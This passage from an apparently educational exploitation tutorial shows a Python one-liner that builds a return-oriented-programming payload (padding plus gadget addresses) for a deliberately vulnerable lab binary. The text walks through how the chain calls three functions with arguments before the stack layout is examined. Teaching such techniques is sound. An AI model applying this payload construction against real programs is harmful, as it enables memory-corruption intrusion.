 We can now translate the above visualized payload to python like so:

```python
./rop1b "$(python -c 'print "A"*108 + "BBBB" + "\xb9\x61\x55\x56" + "\xe4\x61\x55\x56" + "\x1e\x60\x55\x56" + "\xef\xbe\xef\xbe" + "\x12\x62\x55\x56" + "\x0a\x63\x55\x56" + "\xad\xde\xad\xde" + "\xd3\xc0\xd3\xc0" + "\x50\x29\xe0\xf7" ')"
```

Below shows how the above payload is sent to the vulnerable program `rop1b`, that executes `rop1`, `rop2` with argument `0xbeefbeef` that gets printed out and `rop3` with 2 arguments `0xdeaddead` and `0xc0d3cod3` which too get printed and finally gracefully exits:

![2nd ROP chain with arguments and rop gadgets works as expected](../../../.gitbook/assets/rop-chain-exploit-with-popret.gif)

### Inspecting the Stack Layout

To avoid repeating what we saw in the [Stack Layout](rop-chaining-return-oriented-programming.md#stack-layout) section for our first ROP chain, let's just see how the `pop2ret` ROP gadget works and how it affects the stack during execution, since that is the only difference worth mentioning:
